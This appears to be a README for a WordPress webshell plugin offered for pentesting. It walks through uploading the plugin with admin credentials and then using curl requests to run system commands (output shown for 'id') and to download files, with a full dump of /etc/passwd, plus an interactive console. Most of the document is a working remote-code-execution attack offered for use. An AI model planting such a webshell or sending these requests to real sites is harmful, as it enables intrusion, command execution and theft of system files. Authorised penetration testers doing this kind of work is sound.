


# WordPress webshell plugin for RCE

<p align="center">
    A webshell plugin and interactive shell for pentesting a WordPress website.
    <br>
    
    <a href="https://twitter.com/intent/follow?screen_name=podalirius_" title="Follow"></a>
    <a href="https://www.youtube.com/c/Podalirius_?sub_confirmation=1" title="Subscribe"></a>
    <br>
</p>

## Features

 - [x] Webshell plugin for WordPress.
 - [x] Execute system commands via an API with `?action=exec`.
 - [x] Download files from the remote system to your attacking machine with `?action=download`.

## Usage

**Requirements**: You need to have the credentials of the `admin` account of the WordPress website.

### Step 1: Upload the webshell plugin

First, login with admin rights on the WordPress website and go to "_Plugins --> Add New_" page, at http://127.0.0.1:10080/wordpress/wp-admin/plugin-install.php, and click on "Upload Plugin":



Upload the plugin, and click on "_Activate the plugin_":



### Step 2.1: Executing commands

You can now execute commands by sending a GET or POST request to 127.0.0.1:10080/wordpress/wp-content/plugins/wp_webshell/wp_webshell.php with `action=exec&cmd=id`:

```sh
$ curl -X POST '127.0.0.1:10080/wordpress/wp-content/plugins/wp_webshell/wp_webshell.php' --data "action=exec&cmd=id"
{"stdout":"uid=33(www-data) gid=33(www-data) groups=33(www-data)\n","exec":"id"}
```

You can also access it by a GET request from a browser:


### Step 2.2: Downloading files

You can also download remote files by sending a GET or POST request to 127.0.0.1:10080/wordpress/wp-content/plugins/wp_webshell/wp_webshell.php with `action=download&cmd=/etc/passwd`:

```sh
$ curl -X POST '127.0.0.1:10080/wordpress/wp-content/plugins/wp_webshell/wp_webshell.php' --data "action=download&path=/etc/passwd" -o-
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
mysql:x:101:101:MySQL Server,,,:/nonexistent:/bin/false
```

You can also download a remote file from a browser with a GET request :


### Step 3: The interactive console

When your webshell is active, you can now use the interactive [console.py](console.py) to execute commands and download remote files.


## References
 - https://developer.wordpress.org/plugins/intro/
